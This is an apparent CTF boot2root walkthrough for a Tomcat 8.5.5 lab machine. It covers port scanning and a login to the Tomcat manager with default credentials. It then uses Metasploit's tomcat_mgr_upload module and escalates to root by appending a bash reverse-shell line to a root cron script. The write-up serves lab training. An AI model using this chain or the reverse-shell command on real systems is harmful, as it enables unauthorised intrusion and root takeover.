








description:
boot2root machine for FIT and bsides guatemala CTF

1. nmap scanning:

```bash
nmap -p- -sS -sV -T4 10.82.172.128
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
8080/tcp open  http    Apache Tomcat 8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

2. main page view: http://10.82.172.128:8080/

so it is Tomcat/8.5.5
some endpoint with basic auth:
http://10.82.172.128:8080/manager/html

Application on port 8009 looks like unavailable - connection was reset, nmap also returned failed to get a valid response:
```bash
└─$ nmap -p 8009 --script ajp-methods,ajp-headers 10.82.172.128

Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-02 07:35 EST
Nmap scan report for 10.82.172.128
Host is up (0.086s latency).

PORT     STATE SERVICE
8009/tcp open  ajp13
|_ajp-methods: Failed to get a valid response for the OPTION request
| ajp-headers: 
|_  Content-Type: text/html;charset=UTF-8


```
3. searching for directories:
```bash
feroxbuster -u 'http://10.82.172.128:8080' -w /media/sf_wordlists/SecLists-master/Discovery/Web-Content/big.txt
```
4. during scanning I decided to try some default passwords manually, and one worked fine:
   https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown
   Of course for basic auth we can easily use hydra or something, but I tried several times and password worked so it was not really needed.

here we have applications list:


Ok, as I have password and username I decided to search for exploits in msfconsole:
this one created meterpreter session
**exploit/multi/http/tomcat_mgr_upload**



user.txt flag is readable...

In /home/jack we have file test.txt. Content of this file looks like output from id command:

In /home/jack we have also file id.sh and as expected it is writing to test.txt

crontab is running this file every minute as root...
so I added reverse shell command to the end of file id.sh:
```bash

echo 'bash -i >& /dev/tcp/[your_ip_on_tun0]/6666 0>&1' >> id.sh
```

we have root shell:

we have root flag:

